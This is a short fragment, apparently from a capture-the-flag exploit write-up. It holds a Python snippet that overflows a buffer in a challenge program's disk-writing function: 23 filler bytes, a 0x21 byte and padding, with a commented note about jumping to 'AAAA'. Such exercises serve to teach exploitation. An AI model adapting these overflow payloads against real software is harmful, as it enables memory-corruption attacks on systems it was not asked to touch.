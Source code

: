 ``` python
createdisk(1, 1)
# to jump AAAA
#buffer='a'*23
#buffer+=chr(0x21)
#buffer+='\0'*8
#buffer+='a'*5

buffer='a'*23
buffer+=chr(0x21)
buffer+='\x01'*9
writedisk(0, buffer)
readdisk(0)
readdisk(1)
```
